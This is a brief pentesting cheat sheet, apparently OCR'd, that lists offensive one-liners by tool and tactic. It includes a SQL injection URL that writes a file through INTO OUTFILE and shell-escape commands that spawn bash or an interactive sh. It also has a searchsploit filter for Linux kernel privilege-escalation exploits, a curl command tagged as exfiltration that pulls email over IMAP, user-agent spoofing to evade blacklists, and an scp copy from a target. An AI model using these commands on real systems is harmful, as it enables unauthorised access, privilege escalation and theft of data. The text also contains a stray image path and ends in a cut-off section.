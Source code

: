 ## write into a file  
- `http://target-ip/inj.php?id=1 union all select 1,2,3,"content",5 into OUTFILE 'outfile'`

---

# searchsploit
- service: all
- tactics: enumeration

## Full shell limited If commands are limited, you break out of the "jail" shell?
 ( linux shell limited, powershell limited, reverse shell limited.
- `python -c 'import pty;pty.spawn("/bin/bash")'`
- `echo os.system('/bin/bash')`
- `/bin/sh -i`

# filter search for specific kernel versions
- `searchsploit privilege | grep -i linux | grep -i kernel | grep 2.6`

---

# curl
- service: http
- service: imap
- tactics: exfiltration

## download emails via curl
- `curl --insecure --url "imaps://target-domain/Drafts;UID=4" --user "username:password"`

## bypass useragent blacklisting
- `curl -A "Googlebot" http://target-ip/robots.txt`

---

# scp
- service: ssh
- tactics: inital_access

## copy file to target
- `scp -r username@target-ip:/path/to/foo /home/username/desktop/`

---

# ssh
- service: ssh
- tactics: inital_access
- tactics: lateral_movement
